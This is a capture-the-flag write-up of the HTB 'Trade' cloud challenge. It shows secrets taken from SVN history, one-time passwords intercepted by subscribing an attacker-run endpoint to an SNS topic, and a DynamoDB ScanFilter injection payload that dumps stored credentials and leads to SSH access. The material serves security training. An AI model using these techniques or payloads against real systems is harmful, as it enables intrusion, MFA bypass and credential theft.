






# HTB Business CTF 2022 - Trade

## Challenge

> With increasing breaches there has been equal increased demand for exploits and compromised hosts. Dark APT group has released an online store to sell such digital equipment. Being part of defense operations can you help disrupting their service ?

We were given only one IP address (available through the CTF VPN), that's it. In my examples: `10.129.174.22`

### Metadata

- Difficulty: `easy`
- Tags: `cloud`, `svn`, `aws`, `sns`, `dynamodb`, `injection`
- Points: `325`
- Number of solvers: `tbd`

## Solution

### Reconnaissance

Let's do some basic reconnaissance on the given host with `nmap`:

```bash
$ sudo nmap -sS -sV -p - 10.129.174.22 -v
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 17:43 CEST
Scanning 10.129.174.22 [65535 ports]
Discovered open port 80/tcp on 10.129.174.22
Discovered open port 22/tcp on 10.129.174.22
Discovered open port 3690/tcp on 10.129.174.22

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41
3690/tcp open  svnserve Subversion
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The `SSH` service might be interesting later, after we have a password, or might not be interesting at all and left there for maintenance purposes. The `HTTP` service is definitely interesting. The `SVN` service is also interesting. Let's start checking the `HTTP` service.

### First look on the website

First of all, as it's not a `web` challenge, we might not find clues during the first look.

We are presented with a login page of the APT group's online store:



Fuzzing the `POST` request to `/signin` just to make sure gives no interesting findings. [`feroxbuster`](https://github.com/epi052/feroxbuster) identifies some endpoints, but they are not accessible without proper authentication.

```
$ ./feroxbuster --url http://10.129.174.22 --wordlist ~/wordlists/common.txt

200      GET      212l      368w     3982c http://10.129.174.22/
302      GET        5l       22w      189c http://10.129.174.22/home => /
302      GET        5l       22w      189c http://10.129.174.22/search => /
403      GET        9l       28w      278c http://10.129.174.22/server-status
302      GET        5l       22w      229c http://10.129.174.22/signin => /?invalid_credentials
```

Now, we should "checkout" the `SVN` service.

### Checking out Subversion

Running `svn ls` on the target host gives that there is a `store` repository on the server which we can `checkout` without authentication.

```bash
$ svn ls svn://10.129.174.22
store
$ svn checkout svn://10.129.174.22/store
$ cd store
$ ls -la
drwxr-xr-x manjaro manjaro 4.0 KB Mon Jul 18 17:56:26 2022  .
drwxr-xr-x manjaro manjaro 4.0 KB Mon Jul 18 18:05:45 2022  ..
drwxr-xr-x manjaro manjaro 4.0 KB Mon Jul 18 17:56:26 2022  .svn
.rw-r--r-- manjaro manjaro 948 B  Mon Jul 18 17:56:26 2022  dynamo.py
.rw-r--r-- manjaro manjaro  19 B  Mon Jul 18 17:56:26 2022  README.md
.rw-r--r-- manjaro manjaro 4.6 KB Mon Jul 18 17:56:26 2022  sns.py
```

There are 3 files in the latest revision of the repository:
- [dynamo.py](files/store%405/dynamo.py)
- [README.md](files/store%405/README.md)
- [sns.py](files/store%405/sns.py)

In the `dynamodb.py` file we can find some credentials:

```python
client.put_item(TableName='users',
	Item={
		'username': {
			'S': 'marcus'
		},
		'password': {
			'S': 'dFc42BvUs02'
		},
	}
	)
```

### Logging in to the website

If we sign in to the website with the found credentials (`marcus`:`dFc42BvUs02`), the following - previously unknown - page loads (`http://10.129.174.22/2fa`):



Our task is straightforward, we "just" have to get the `otp` of `marcus` somehow.

### Revising Subversion

Just like `git`, `svn` has `logs` (like a history) which prints all revisions in the repository.

```bash
$ svn log
------------------------------------------------------------------------
r5 | root | 2022-06-14 11:59:42 +0200 (Tue, 14 Jun 2022) | 1 line

Adding database
------------------------------------------------------------------------
r4 | root | 2022-06-14 11:59:23 +0200 (Tue, 14 Jun 2022) | 1 line

Updating Notifications
------------------------------------------------------------------------
r3 | root | 2022-06-14 11:59:12 +0200 (Tue, 14 Jun 2022) | 1 line

Updating Notifications
------------------------------------------------------------------------
r2 | root | 2022-06-14 11:58:26 +0200 (Tue, 14 Jun 2022) | 1 line

Adding Notifications
------------------------------------------------------------------------
r1 | root | 2022-06-14 11:49:17 +0200 (Tue, 14 Jun 2022) | 1 line

Initializing repo
------------------------------------------------------------------------
```

There are 5 revisions and previously we checked out the 5th (`r5`). Let's check out all other revisions.

```terminal
$ svn checkout svn://10.129.174.22/store@5 store5
$ svn checkout svn://10.129.174.22/store@4 store4
$ svn checkout svn://10.129.174.22/store@3 store3
$ svn checkout svn://10.129.174.22/store@2 store2
$ svn checkout svn://10.129.174.22/store@1 store1
$ tree
.
├── store1
│   └── README.md
├── store2
│   ├── README.md
│   └── sns.py
├── store3
│   └── README.md
├── store4
│   ├── README.md
│   └── sns.py
└── store5
    ├── dynamo.py
    ├── README.md
    └── sns.py
```

We can see that in `r2` `sns.py` is committed to the repository, which is later removed in `r3` and added again in `r4`. The differences are interesting:

```bash
$ diff store4 store2
diff --color store4/sns.py store2/sns.py
20,21c20,21
< access_key = ''
< secret_access_key_id = ''
---
> access_key = 'AKIA5M34BDN8GCJGRFFB'
> secret_access_key_id = 'cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
```

We now have some AWS access tokens which hopefully we can work with.

```
access_key = 'AKIA5M34BDN8GCJGRFFB'
secret_access_key_id = 'cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
```

### Checking access keys with `boto3`

Similarly as in [sns.py](files/store%405/sns.py), we define a couple `boto3` clients with the extracted access keys:

- `s3`: Amazon Simple Storage Service (Amazon S3)
- `dynamodb`: Amazon DynamoDB Database
- `sts`: AWS Security Token Service API (STS)
- `sns`: Amazon Simple Notification Service (SNS)

It is also important to add `cloud.htb` to `/etc/hosts` with the private IP of the target host as `http://cloud.htb` is used as an `endpoint_url`.

```python
import boto3

s3 = boto3.client('s3',
            region_name='us-east-2',
            endpoint_url='http://cloud.htb',
            aws_access_key_id='AKIA5M34BDN8GCJGRFFB',
            aws_secret_access_key='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
        )

dynamodb = boto3.client('dynamodb',
            region_name='us-east-2',
            endpoint_url='http://cloud.htb',
            aws_access_key_id='AKIA5M34BDN8GCJGRFFB',
            aws_secret_access_key='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
        )

sts = boto3.client('sts',
            region_name='us-east-2',
            endpoint_url='http://cloud.htb',
            aws_access_key_id='AKIA5M34BDN8GCJGRFFB',
            aws_secret_access_key='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
        )

sns = boto3.client('sns',
            region_name='us-east-2',
            endpoint_url='http://cloud.htb',
            aws_access_key_id='AKIA5M34BDN8GCJGRFFB',
            aws_secret_access_key='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
        )
```

Let's see if we have access to anything with the access keys. During the CTF we tried calling almost all the available function in `boto3`. We also tried some AWS pentesting and enumeration tools like [`enumerate-iam`](https://github.com/andresriancho/enumerate-iam.git).

#### DynamoDB

```python
dynamodb.list_tables()
```
```
ClientError: An error occurred (403) when calling the ListTables operation: User arn:aws:iam::000000000000:user/tom is not authorized to perform this action
```

#### S3

```python
s3.list_buckets()
```
```
ClientError: An error occurred (403) when calling the ListBuckets operation: Forbidden
```

#### STS

```python
sts.get_caller_identity()
```
```json
{"UserId": "AKIAIOSFODNN7DXV3G29",
 "Account": "000000000000",
 "Arn": "arn:aws:iam::000000000000:user/tom",
 "ResponseMetadata": {"RequestId": "c6104cbe-af31-11e0-8154-cbc7ccf896c7",
  "HTTPStatusCode": 200,
  "HTTPHeaders": {"date": "Mon, 18 Jul 2022 16:03:45 GMT",
   "server": "Werkzeug/2.1.2 Python/3.8.10",
   "content-type": "text/html; charset=utf-8",
   "content-length": "437",
   "vary": "Accept-Encoding"},
  "RetryAttempts": 0}}
```

#### SNS

```python
sns.list_topics()
```
```json
{"Topics": [
  {"TopicArn": "arn:aws:sns:us-east-2:000000000000:otp"}]}
```

As a summary:

- `s3`: Our user (`tom`) has no access to S3.
- `dynamodb`: Our user has no access to DynamoDB.
- `sts`: We can identify who we are (`arn:aws:iam::000000000000:user/tom`)
- `sns`: Our user has some access to SNS.

It seems that our only path is `SNS` and the `otp` topic.

### Getting the OTP

You might have an idea of the following steps. We can try to subscribe to the `otp` topic and hopefully we can get the fresh `OTP` tokens. Let's check the `boto3` documentation on how to subscribe to a topic [here](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/sns.html#SNS.Client.subscribe). It seems that we can give an HTTP endpoint which will be notified if a message arrives to the topic. 

The following simple `Flask` service has an `/otp` endpoint and prints the `body` of the request.

```python
from flask import Flask
from flask import request
from flask import send_file
import base64

app = Flask(__name__)

@app.route('/otp',methods=["POST"])
def dropper():
    print(request.data)
    return "OK", 200

app.run(debug=False, port=4444, host='10.10.14.3')
```

Now we subscribe with the HTTP endpoint of the Flask app (`http://10.10.14.3:4444/otp`) to the `otp` topic.

```python
sns.subscribe(TopicArn='arn:aws:sns:us-east-2:000000000000:otp', Protocol='http', Endpoint='http://10.10.14.3:4444/otp')
```

The response indicates a success:
```json
{"SubscriptionArn": "arn:aws:sns:us-east-2:000000000000:otp:ae056805-fb6c-488d-ae8b-34cbcb3df602",
 "ResponseMetadata": {"RequestId": "c4407779-24a4-56fa-982c-3d927f93a775",
  "HTTPStatusCode": 200,
  "HTTPHeaders": {"date": "Mon, 18 Jul 2022 16:06:05 GMT",
   "server": "Werkzeug/2.1.2 Python/3.8.10",
   "content-type": "text/html; charset=utf-8",
   "access-control-allow-origin": "*",
   "access-control-allow-methods": "HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH",
   "access-control-allow-headers": "authorization,cache-control,content-length,content-md5,content-type,etag,location,x-amz-acl,x-amz-content-sha256,x-amz-date,x-amz-request-id,x-amz-security-token,x-amz-tagging,x-amz-target,x-amz-user-agent,x-amz-version-id,x-amzn-requestid,x-localstack-target,amz-sdk-invocation-id,amz-sdk-request",
   "access-control-expose-headers": "etag,x-amz-version-id",
   "content-length": "329",
   "vary": "Accept-Encoding"},
  "RetryAttempts": 0}}
```

Finally, we can log in to the site and immediately receive the `OTP` (in this case it is `98502628`):
```bash
$ python server.py
 * Serving Flask app 'server' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://10.10.14.3:4444 (Press CTRL+C to quit)
b'{"Type": "SubscriptionConfirmation", "MessageId": "248d29db-e5bf-41d2-ae1e-fce04f9ed256", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "You have chosen to subscribe to the topic arn:aws:sns:us-east-2:000000000000:otp.\\nTo confirm the subscription, visit the SubscribeURL included in this message.", "Timestamp": "2022-07-18T16:06:05.688Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "SubscribeURL": "http://localhost:4566/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-2:000000000000:otp&Token=f2f09a36", "Token": "f2f09a36", "UnsubscribeURL": "http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:ae056805-fb6c-488d-ae8b-34cbcb3df602"}'
10.129.174.22 - - [18/Jul/2022 18:06:06] "POST /otp HTTP/1.1" 200 -
b'{"Type": "Notification", "MessageId": "401fdd80-faf5-451e-b274-90853ba38ee9", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "{\\"otp\\": \\"98502628\\"}", "Timestamp": "2022-07-18T16:06:40.389Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "UnsubscribeURL": "http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:ae056805-fb6c-488d-ae8b-34cbcb3df602"}'
10.129.174.22 - - [18/Jul/2022 18:06:40] "POST /otp HTTP/1.1" 200 -
```

We are in:



### `/search`

The website basically has only one functional endpoint: `/search`, which is also linked on the bottom of the page.



The name of the endpoint immediately suggests some kind of database (SQL/NoSQL) injection. As usual, try searching for special characters like `'` and `"`. `"` returns an error message:

```
POST /search HTTP/1.1
Host: 10.129.174.22
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJhdXRoIjp0cnVlLCJsb2dnZWRpbiI6dHJ1ZX0.YtWFKQ._hv2nGlm8kUGGrNaihVzV0pNzaE

q=%22
```



```
JSONDecodeError: {"servername": {"ComparisonOperator": "EQ","AttributeValueList": [{"S": """}]}}
```

This is a `DynamoDB` [`ScanFilter`](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/LegacyConditionalParameters.ScanFilter.html). There aren't many resources on DynamoDB injection, but we can get an idea from the following URLs:

- <https://attackdefense.pentesteracademy.com/challengedetailsnoauth?cid=1248>
- <https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac>

It is similar to a MongoDB NoSQL injection. We can inject and extra `ComparisonOperator` at the end of the `ScanFilter` and try to match all items in the table. We can prepare a `ScanFilter` which hopefully returns all items.

First part of the `ScanFilter` (not controlled by us):

```
{"servername": {"ComparisonOperator": "EQ","AttributeValueList": [{"S": "
```

Second part of the `ScanFilter` (controlled by us):

```
test"}],"ComparisonOperator": "NE", "AttributeValueList":[{"S":"nonexsistingelement
```

Third part of the `ScanFilter` (not controlled by us):
```
"}]}}
```

The complete `ScanFilter`:

```json
{
    "servername": {
        "ComparisonOperator": "EQ",
        "AttributeValueList": [
            {
                "S": "test"
            }
        ],
        "ComparisonOperator": "NE",
        "AttributeValueList": [
            {
                "S": "nonexsistingelement"
            }
        ]
    }
}
```

Let's send the request:

```
POST /search HTTP/1.1
Host: 10.129.174.22
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJhdXRoIjp0cnVlLCJsb2dnZWRpbiI6dHJ1ZX0.YtWFKQ._hv2nGlm8kUGGrNaihVzV0pNzaE

q=test%22%7D%5D%2C%22ComparisonOperator%22%3A+%22GT%22%2C+%22AttributeValueList%22%3A%5B%7B%22S%22%3A%22nonexsistingelement
```

The response is the complete (?) content of the table!



```
ServerName:	Medical servers
Username:	mega-medicorp\Administrator
Password:	cVfD#2Ds0%Gj
Shell Location:	

ServerName:	MegaCorp
Username:	root
Password:	V0Fo@s9$vC
Shell Location:	

ServerName:	ArmyCorp Access
Username:	mega-armycorp\Administrator
Password:	c_fV0@d43XoP
Shell Location:	

ServerName:	Thycotic Servers Access
Username:	mario
Password:	cD034%hJqW10
Shell Location:	

ServerName:	Telecom Access
Username:	root
Password:	cVFG04JcS2
Shell Location:	

ServerName:	Logistics Console
Username:	root
Password:	b4ckd00r
Shell Location:	/corp_prod/xd04fs.jsp
```

We have a few credentials, what now?

### Hacking ourself

During the CTF we were stuck here for a few hours. As this was an easy challenge we though there should be only one small step remaining. We tried the following:
- Querying more data from the database through the injection: This is not possible as the `Table` for which the `ScanFilter` is applied is not controlled by us, so we can retrieve and search in one table which is hardcoded.
- Creating other `ScanFilter` in case some records did not show up for some reason. The number of queried items might be limited.
- Logging in to [AWS console](https://aws.amazon.com/console/) with the found credential: Obviously not possible.
- Logging in to the website with the found credentials (all combinations).
- Logging in to the host via SSH with `root` and the found password.

The last two ideas were not really logical considering the context of the challenge. The database table we got using the injection supposedly contains leaked credentials to other pwned sites and not credentials for the APT's site and host.

However, after some time we tried `SSH` again with the found credentials and `mario`:`cD034%hJqW10` worked.

```
$ ssh mario@cloud.htb
mario@cloud.htb's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
[...]

mario@trade:~$ ls
flag.txt
mario@trade:~$ cat flag.txt
HTB{dyn4m0_1nj3ct10ns_4r3_w31rd_4bFgc1!}
```

Flag: `HTB{dyn4m0_1nj3ct10ns_4r3_w31rd_4bFgc1!}`

### Review

It was a pretty good challenge with many smaller steps. 2-3 of us worked on this challenge and we managed to solve it in a few hours. We've learned a lot about AWS services like SNS and DynamoDB. However, there was one part which we found counter-intuitive: the last part. Considering the context of the challenge, login in to the attacker's server using credentials from the database table supposedly containing leaked credentials to other servers and site is not straightforward. But we might've missed something. Other than that it was a great `cloud` challenge. Thanks HTB! <3

## Files

The full content of all revisions of the SVN repository (view it through GitHub):
* [store rev1](files/store%401)
* [store rev2](files/store%402)
* [store rev3](files/store%403)
* [store rev4](files/store%404)
* [store rev5](files/store%405)